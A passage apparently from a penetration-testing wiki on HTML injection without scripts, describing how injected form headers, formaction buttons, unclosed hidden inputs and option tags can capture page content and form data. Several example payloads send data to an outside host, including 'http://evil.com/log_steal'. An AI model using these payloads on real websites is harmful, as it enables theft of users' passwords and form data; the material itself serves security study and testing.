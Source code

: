 ```
Then, the forms that send data to path (like `<form action='update_profile.php'>`) will send the data to the malicious domain.

### Stealing forms 2

Set a form header: `<form action='http://evil.com/log_steal'>` this will overwrite the next form header and all the data from the form will be sent to the attacker.

### Stealing forms 3

The button can change the URL where the information of the form is going to be sent with the attribute "formaction":

```html
<button name="xss" type="submit" formaction="https://google.com">
  I get consumed!
</button>
```
```
An attacker can use this to steal the information.

Find an [[https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp|**example of this attack in this writeup**]].

### Stealing clear text secrets 2

Using the latest mentioned technique to steal forms (injecting a new form header) you can then inject a new input field:

```html
<input type='hidden' name='review_body' value="
```
```
and this input field will contain all the content between its double quote and the next double quote in the HTML. This attack mix the "_**Stealing clear text secrets**_" with "_**Stealing forms2**_".

You can do the same thing injecting a form and an `<option>` tag. All the data until a closed `</option>` is found will be sent:

```html
<form action=http://google.com>Click Me<select name=xss><option
```
```
### Form parameter injection

You can change the path of a form and insert new values so an unexpected action will be performed:

```html
<form action="/change_settings.php">
   ← Injected lines

  <form action="/change_settings.php">
    ← Existing form (ignored by the parser) ...
     ← Subverted field ...
    
    ...
  </form>
</form>
```
```
### Stealing clear text secrets via noscript

`<noscript></noscript>` Is a tag whose content will be interpreted if the browser doesn't support javascript (you can enable/disable Javascript in Chrome in [[chrome://settings/content/javascript)|chrome://settings/content/javascript]].
```